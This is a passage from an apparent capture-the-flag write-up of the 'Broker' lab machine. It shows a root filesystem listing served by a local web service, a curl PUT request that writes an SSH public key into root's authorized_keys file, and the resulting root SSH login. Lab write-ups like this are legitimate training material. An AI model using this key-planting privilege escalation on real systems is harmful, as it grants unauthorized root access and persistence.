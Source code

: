 ```
<a href="libx32/">libx32/</a>                                            17-Feb-2023 17:19                   -
<a href="lost%2Bfound/">lost+found/</a>                                        27-Apr-2023 15:40                   -
<a href="media/">media/</a>                                             06-Nov-2023 01:18                   -
<a href="mnt/">mnt/</a>                                               17-Feb-2023 17:19                   -
<a href="opt/">opt/</a>                                               06-Nov-2023 01:18                   -
<a href="proc/">proc/</a>                                              08-Nov-2023 17:53                   -
<a href="root/">root/</a>                                              07-Nov-2023 08:40                   -
<a href="run/">run/</a>                                               08-Nov-2023 19:24                   -
<a href="sbin/">sbin/</a>                                              06-Nov-2023 01:10                   -
<a href="srv/">srv/</a>                                               06-Nov-2023 01:18                   -
<a href="sys/">sys/</a>                                               08-Nov-2023 17:53                   -
<a href="tmp/">tmp/</a>                                               08-Nov-2023 20:00                   -
<a href="usr/">usr/</a>                                               17-Feb-2023 17:19                   -
<a href="var/">var/</a>                                               05-Nov-2023 01:43                   -
<a href="test.out">test.out</a>                                           08-Nov-2023 19:22                  14
</pre><hr></body>
</html>

```

If I use a PUT request instead, it’ll write what I send to the file:

```

activemq@broker:/dev/shm$ curl -X PUT localhost:1338/root/.ssh/authorized_keys -d 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing'

```

So this writes my public SSH key to root’s `authorized_keys` file.

Now I can SSH as root to Broker:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...[snip]...
root@broker:~#

```
